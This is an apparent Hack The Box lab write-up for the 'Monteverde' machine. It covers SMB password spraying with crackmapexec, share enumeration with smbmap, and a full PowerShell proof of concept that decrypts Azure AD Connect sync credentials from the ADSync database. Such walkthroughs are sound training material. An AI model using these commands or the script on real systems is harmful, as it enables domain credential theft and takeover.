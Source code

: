 ```yaml
---
author: k0z4c
title: Monteverde
---
```


## **Getting Access**

We start as always with

![]({% link assets/htb/monteverde/nmap.png %})

We can spot a SMB and WinRM port.

After running enum4linux against the box we obtain  a list of users 

![]({% link assets/htb/monteverde/enum4linux.png %})

Let's try to access to port 445 using username as password
```bash
crackmapexec smb -u users_wdomain.lst -p users_wdomain.lst -d MEGABANK monteverde
```
![]({% link assets/htb/monteverde/userpwn.png %})

So now we have a valid account, SABatchJobs.

So let's list the shares
```bash
smbmap -L -d MEGABANK -u SABatchJobs -p SABatchJobs -H monteverde
```
![]({% link assets/htb/monteverde/shares.png %})

User$ share seems interesting.. let's take a look
```bash
smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJobs -d MEGABANK -r users$
```
![]({% link assets/htb/monteverde/azurefile.png %})


Seems that the only interesting file is azure.xml; let's download it 
![]({% link assets/htb/monteverde/azuredownload.png %})

aaah! an embedded password is spotted in the wild!
![]({% link assets/htb/monteverde/azurepassword.png %})

let's try to logon then with mhope user through winrm (the azure.xml file was in the mhope's folder)
![]({% link assets/htb/monteverde/winrmpwn.png %})

Gotcha!

## **Privilege escalation to Administrator**

Box, box on the net who's this user between all?
![]({% link assets/htb/monteverde/whoami.png %})

Nice; we can see that user's hope belongs to a very interesting group.


googlin'around we can find a way to escalate our privileges https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/

To sum up, the host is probably hosting the azure ad connect service, that is responsible to sync hashes from the on premise ad env to the azure (cloud) one.
When the aforementioned service is installed and configured in Password Hash Syncronization mode, it'll create a local database (ADSync), that stores data and metadata for the 
service itself.
Searching through this data we can find small bits that can be used to decrypt the password of the user owning the database, that is a user in the domain that can push the local ad hashes on the cloud.
(ndr the user must have the “replicating directory changes” in his ACL; so we can use the compromised account to perform a DCSync attack too!)


let's check if we can perform the attack.. 

An sqlserver instance is effectively running 
![]({% link assets/htb/monteverde/sqlinfo.png %})

An ADSync database is present
![]({% link assets/htb/monteverde/databasecheck.png %})

.. and owned by the administrator! :*

so the exploit might probably apply.. let's give it a try.
You can find the exploit code here https://gist.github.com/xpn/0dc393e944d8733e3c63023968583545

You have only to change the connection string with dis one.
That's because we have to authenticate to a full flat sql server (not the express edition mentioned in the gist).

{% highlight powershell lineos %}
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=LocalHost;Database=ADSync;Trusted_Connection=True;"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
{% endhighlight %}


We then upload through our shell the poc and we run it
![]({% link assets/htb/monteverde/adminpwd.png %})

..fantastic.


Now let's connect to the box again with the new creds
![]({% link assets/htb/monteverde/adminpwn.png %})

... pwned (:

### **Credits** 

* the new exploit gist [here][new_exploit] (yea microsoft patches >:)
* the exploit explanation [here][exploit_blog] and [here][sspi] some SSPI authentication explanation.
* info about connection strings MDN [here][conn_str]

[exploit_blog]: https://blog.xpnsec.com/azuread-connect-for-redteam/
[sspi]: https://ldapwiki.com/wiki/Security%20Support%20Provider%20Interface
[new_exploit]: https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c
[conn_str]:  https://docs.microsoft.com/en-us/dotnet/api/system.data.sqlclient.sqlconnection.connectionstring?redirectedfrom=MSDN&view=dotnet-plat-ext-3.1#System_Data_SqlClient_SqlConnection_ConnectionString

